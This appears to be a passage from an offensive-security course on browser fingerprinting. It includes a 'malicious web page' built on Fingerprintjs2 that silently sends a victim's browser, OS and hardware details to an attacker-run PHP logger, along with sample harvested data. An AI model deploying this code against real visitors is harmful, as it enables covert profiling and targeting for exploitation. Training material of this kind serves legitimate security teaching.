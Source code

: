 The process of client fingerprinting is extremely critical to the success of our attack, but to obtain the most precise information, we must often gather it from the target machine itself. We can perform this important phase of the attack as a standalone step before the exploitation process or incorporate fingerprinting into the first stage of the exploit itself.

Let's assume we have convinced our victim to visit our malicious web page in a practical example. Our goal will be to identify the victim's web browser version and information about the underlying operating system.

Web browsers are generally a good vector for collecting information on the target. Their evolution, complexity, and richness in functionality has become a double-edged sword for both end users and attackers.

We could create our own custom tool but there are many available open-source fingerprinting projects, and the most reliable ones are generally those that directly leverage common client-side components such as JavaScript.

For this example, we will use the Fingerprintjs2 JavaScript library,2 which can be installed by downloading and extracting the project archive from its GitHub repository:

kali@kali:/var/www/html$ sudo wget https://github.com/Valve/fingerprintjs2/archive/master.zip
--2019-07-24 02:42:36--  https://github.com/Valve/fingerprintjs2/archive/master.zip
...  

2019-07-24 02:42:41 (116 KB/s) - ‘master.zip’ saved [99698]

kali@kali:/var/www/html$ sudo unzip master.zip 
Archive:  master.zip
eb44f8f6f5a8c4c0ae476d4c60d8ed1015b2b605
   creating: fingerprintjs2-master/
  inflating: fingerprintjs2-master/.eslintrc  
...
kali@kali:/var/www/html$ sudo mv fingerprintjs2-master/ fp

    Listing 1 - Downloading the Fingerprintjs2 library

We can incorporate this library into an HTML file based on the examples included with the project. We will include the fingerprint2.js library from within the index.html HTML file located in the /var/www/html/fp directory of our Kali web server:

kali@kali:/var/www/html/fp$ cat index.html 
<!doctype html>
<html>
<head>
  <title>Fingerprintjs2 test</title>
</head>
<body>
  <h1>Fingerprintjs2</h1>

  <p>Your browser fingerprint: <strong id="fp"></strong></p>
  <p><code id="time"/></p>
  <p><span id="details"/></p>
  <script src="fingerprint2.js"></script>
  <script>
      var d1 = new Date();
      var options = {};
      Fingerprint2.get(options, function (components) {
        var values = components.map(function (component) { return component.value })
        var murmur = Fingerprint2.x64hash128(values.join(''), 31)
        var d2 = new Date();
        var timeString = "Time to calculate the fingerprint: " + (d2 - d1) + "ms";
        var details = "<strong>Detailed information: </strong><br />";
        if(typeof window.console !== "undefined") {
          for (var index in components) {
            var obj = components[index];
            var value = obj.value;
	          if (value !== null) {
              var line = obj.key + " = " + value.toString().substr(0, 150);
              details += line + "<br />";
	          }
          }
        }
        document.querySelector("#details").innerHTML = details 
        document.querySelector("#fp").textContent = murmur 
        document.querySelector("#time").textContent = timeString
      });
  </script>
</body>
</html>

    Listing 2 - Using the Fingerprintjs2 JavaScript library

The JavaScript code in Listing 2 invokes the Fingerprint2.get static function to start the fingerprinting process. The components variable returned by the library is an array containing all the information extracted from the client. The values stored in the components array are passed to the murmur3 hash function in order to create a hash fingerprint of the browser. Finally, the same values are extracted and displayed in the HTML page.

The below web page (Figure 2) from our Windows lab machine reveals that a few lines of JavaScript code extracted the browser User Agent string, its localization, the installed browser plugins and relative version, generic information regarding the underlying Win32 operating system platform, and other details:

Figure 2: Fingerprinting a browser through the JavaScript Fingerprintjs2 library
Figure 2: Fingerprinting a browser through the JavaScript Fingerprintjs2 library

Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537 Edge/16.16299

    Listing 3 - The complete User Agent string extracted by the JavaScript script

We can submit this User Agent string to an online user agent database to identify the browser version and operating system as shown in Figure 3.

Figure 3: Identifying the exact browser version through the http://developers.whatismybrowser.com user agent database
Figure 3: Identifying the exact browser version through the http://developers.whatismybrowser.com user agent database

Notice that the User Agent string implicitly tells us that Microsoft Edge 41 is running on the 32-bit version of Windows 10. For 64-bit versions of Windows, the string would have otherwise contained some information regarding the 64-bit architecture as shown below:

Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537 Edge/16.16299

    Listing 4 - The complete User Agent string for the same version of Microsoft Edge on a 64-bit version of Windows

We managed to gather the information we were after, but the JavaScript code from Listing 2 displays data to the victim rather than to the attacker. This is obviously not very useful so we need to find a way to transfer the extracted information to our attacking web server.

A few lines of Ajax4 code should do the trick. Listing 5 shows a modified version of the previously used fingerprint web page. In this code, we use the XMLHttpRequest JavaScript API to interact with the attacking web server via a POST request. The POST request is issued against the same server where the malicious web page is stored, therefore the URL used in the xmlhttp.open method does not specify an IP address.

The components array, which contains the information extracted by the Fingerprint2 library, is processed by a few lines of JavaScript code, similar to the previous example. This time, however, the result output string is sent to js.php via a POST request. The key components are highlighted in Listing 5 below:

<!doctype html>
<html>
<head>
  <title>Blank Page</title>
</head>
<body>
  <h1>You have been given the finger!</h1>
  <script src="fingerprint2.js"></script>
  <script>
      var d1 = new Date();
      var options = {};
      Fingerprint2.get(options, function (components) {
        var values = components.map(function (component) { return component.value })
        var murmur = Fingerprint2.x64hash128(values.join(''), 31)
	      var clientfp = "Client browser fingerprint: " + murmur + "\n\n";
        var d2 = new Date();
        var timeString = "Time to calculate fingerprint: " + (d2 - d1) + "ms\n\n";
        var details = "Detailed information: \n";
        if(typeof window.console !== "undefined") {
          for (var index in components) {
            var obj = components[index];
            var value = obj.value;
	          if (value !== null) {
              var line = obj.key + " = " + value.toString().substr(0, 150);
              details += line + "\n";
	          }
          }
        }
        var xmlhttp = new XMLHttpRequest();
        xmlhttp.open("POST", "/fp/js.php");
        xmlhttp.setRequestHeader("Content-Type", "application/txt");
        xmlhttp.send(clientfp + timeString + details);
      });
  </script>
</body>
</html>

    Listing 5 - Sending browser information to the attacker server

Let's look at the /fp/js.php PHP code that processes the POST request on the attacking server:

```php
<?php
$data = "Client IP Address: " . $_SERVER['REMOTE_ADDR'] . "\n";
$data .= file_get_contents('php://input');
$data .= "---------------------------------\n\n";
file_put_contents('/var/www/html/fp/fingerprint.txt', print_r($data, true), FILE_APPEND | LOCK_EX);
?>
```

The PHP code first extracts the client IP address from the $_SERVER5 array, which contains server and execution environment information. Then the IP address is concatenated to the text string received from the JavaScript POST request and written to the fingerprint.txt file in the /var/www/html/fp/ directory. Notice the use of the FILE_APPEND flag, which allows us to store multiple fingerprints to the same file.

In order for this code to work, we need to allow the Apache www-data user to write to the fp directory:

kali@kali:/var/www/html$ sudo chown www-data:www-data fp

    Listing 7 - Changing permissions on the fp directory

Once the victim browses the fingerprint2server.html web page (Figure 4), we can inspect the contents of fingerprint.txt on our attack server:

Client IP Address: 10.11.0.22
Client browser fingerprint: ff0435cc84bcac49b15078773c5e3f2e

Time took to calculate the fingerprint: 625ms

Detailed information: 
userAgent = Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 Edge/16.16299
webdriver = false
language = en-US
colorDepth = 24
deviceMemory = not available
hardwareConcurrency = 1
screenResolution = 787,1260
availableScreenResolution = 747,1260
timezoneOffset = 420
timezone = America/Los_Angeles
sessionStorage = true
localStorage = true
indexedDb = true
addBehavior = false
openDatabase = false
cpuClass = not available
platform = Win32
plugins = Edge PDF Viewer,Portable Document Format,application/pdf,pdf
canvas = canvas winding:yes,canvas fp:data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAB9
webgl = data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAASwAAACWCAYAAABkW7XSAAAAAXNSR0IA
webglVendorAndRenderer = Microsoft~Microsoft Basic Render Driver
adBlock = false
hasLiedLanguages = false
hasLiedResolution = false
hasLiedOs = false
hasLiedBrowser = false
touchSupport = 0,false,false
fonts = Arial,Arial Black,Arial Narrow,Arial Rounded MT Bold,Book Antiqua,Bookman Old
audio = 124.08073878219147

    Listing 8 - The browser fingerprint information sent to the server

With this modification, no information will be displayed in the victim's browser. The XMLHttpRequest silently transferred the data to our attack server without any interaction from the victim. The only output seen by the victim is our chosen text:

Figure 4: Browser Fingerprinting through a XMLHttpRequest request
Figure 4: Browser Fingerprinting through a XMLHttpRequest request
